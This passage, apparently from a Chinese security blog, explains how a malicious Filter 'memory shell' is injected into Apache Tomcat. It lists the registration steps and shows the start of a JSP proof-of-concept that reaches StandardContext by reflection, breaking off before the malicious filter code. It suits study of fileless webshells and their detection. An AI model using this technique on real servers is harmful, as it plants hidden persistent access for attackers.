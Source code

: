 ```java  
```  
#### 关于StandardContext、ApplicationContext、ServletContext  
[https://yzddmr6.com/posts/tomcat-context/](https://yzddmr6.com/posts/tomcat-context/)  
[https://mp.weixin.qq.com/s/BrbkTiCuX4lNEir3y24lew](https://mp.weixin.qq.com/s/BrbkTiCuX4lNEir3y24lew)  
`ServletContext`是`Servlet`规范；`org.apache.catalina.core.ApplicationContext`是`ServletContext`的实现；`org.apache.catalina.Context`接口是`tomcat`容器结构中的一种容器，代表的是一个`web`应用程序，是`tomcat`独有的，其标准实现是`org.apache.catalina.core.StandardContext`，是`tomcat`容器的重要组成部分。  
关于`StandardContext`的获取方法，除了本文中提到的将`ServletContext`转为`StandardContext`从而获取到`context`这个方法，还有以下两种方法  
1. 从线程中获取StandardContext，参考Litch1师傅的文章：[https://mp.weixin.qq.com/s/O9Qy0xMen8ufc3ecC33z6A](https://mp.weixin.qq.com/s/O9Qy0xMen8ufc3ecC33z6A)  
2. 从MBean中获取，参考54simo师傅的文章：[https://scriptboy.cn/p/tomcat-filter-inject/，不过这位师傅的博客已经关闭了，我们可以看存档：https://web.archive.org/web/20211027223514/https://scriptboy.cn/p/tomcat-filter-inject/](https://scriptboy.cn/p/tomcat-filter-inject/%EF%BC%8C%E4%B8%8D%E8%BF%87%E8%BF%99%E4%BD%8D%E5%B8%88%E5%82%85%E7%9A%84%E5%8D%9A%E5%AE%A2%E5%B7%B2%E7%BB%8F%E5%85%B3%E9%97%AD%E4%BA%86%EF%BC%8C%E6%88%91%E4%BB%AC%E5%8F%AF%E4%BB%A5%E7%9C%8B%E5%AD%98%E6%A1%A3%EF%BC%9Ahttps://web.archive.org/web/20211027223514/https://scriptboy.cn/p/tomcat-filter-inject/)  
3. 从spring运行时的上下文中获取，参考 LandGrey@奇安信观星实验室 师傅的文章：[https://www.anquanke.com/post/id/198886](https://www.anquanke.com/post/id/198886)  
### Filter内存马  
#### 简单的filter内存马  
- 获取`StandardContext`  
- 继承并编写一个恶意`filter`  
- 实例化一个`FilterDef`类，包装`filter`并放到`StandardContext.filterDefs`中  
- 实例化一个`FilterMap`类，将我们的`filter`和`urlpattern`相对应，使用`addFilterMapBefore`存放到`StandardContext.filterMaps`中  
- 通过反射获取`filterConfigs`，实例化一个`filterConfig`(`ApplicationFilterConfig`)类，传入`StandardContext`与`filterDefs`，存放到`filterConfig`中  
需要注意的是，一定要先修改`filterDef`，再修改`filterMap`，不然会抛出找不到`filterName`的异常。  
```java  
&lt;%@ page import=&#34;java.lang.reflect.Field&#34; %&gt;  
&lt;%@ page import=&#34;org.apache.catalina.core.ApplicationContext&#34; %&gt;  
&lt;%@ page import=&#34;org.apache.catalina.core.StandardContext&#34; %&gt;  
&lt;%@ page import=&#34;java.util.Map&#34; %&gt;  
&lt;%@ page import=&#34;java.io.IOException&#34; %&gt;  
&lt;%@ page import=&#34;java.io.InputStream&#34; %&gt;  
&lt;%@ page import=&#34;java.util.Scanner&#34; %&gt;  
&lt;%@ page import=&#34;java.io.PrintWriter&#34; %&gt;  
&lt;%@ page import=&#34;org.apache.tomcat.util.descriptor.web.FilterDef&#34; %&gt;  
&lt;%@ page import=&#34;org.apache.tomcat.util.descriptor.web.FilterMap&#34; %&gt;  
&lt;%@ page import=&#34;org.apache.catalina.core.ApplicationFilterConfig&#34; %&gt;  
&lt;%@ page import=&#34;java.lang.reflect.Constructor&#34; %&gt;  
&lt;%@ page import=&#34;org.apache.catalina.Context&#34; %&gt;  
&lt;%@ page import=&#34;java.util.List&#34; %&gt;  
&lt;%@ page import=&#34;java.util.ArrayList&#34; %&gt;  
&lt;%@ page import=&#34;javafx.application.Application&#34; %&gt;&lt;%--  
  Created by IntelliJ IDEA.  
  User: f10wers13eicheng  
  Date: 2025/1/31  
  Time: 下午7:53  
  To change this template use File | Settings | File Templates.  
--%&gt;  
&lt;%@ page contentType=&#34;text/html;charset=UTF-8&#34; language=&#34;java&#34; %&gt;  
&lt;html&gt;  
&lt;head&gt;  
    &lt;title&gt;Title&lt;/title&gt;  
&lt;/head&gt;  
&lt;body&gt;  
&lt;%  
    ServletContext servletContext = request.getSession().getServletContext();  
    Field appctx = servletContext.getClass().getDeclaredField(&#34;context&#34;);  
    appctx.setAccessible(true);  
```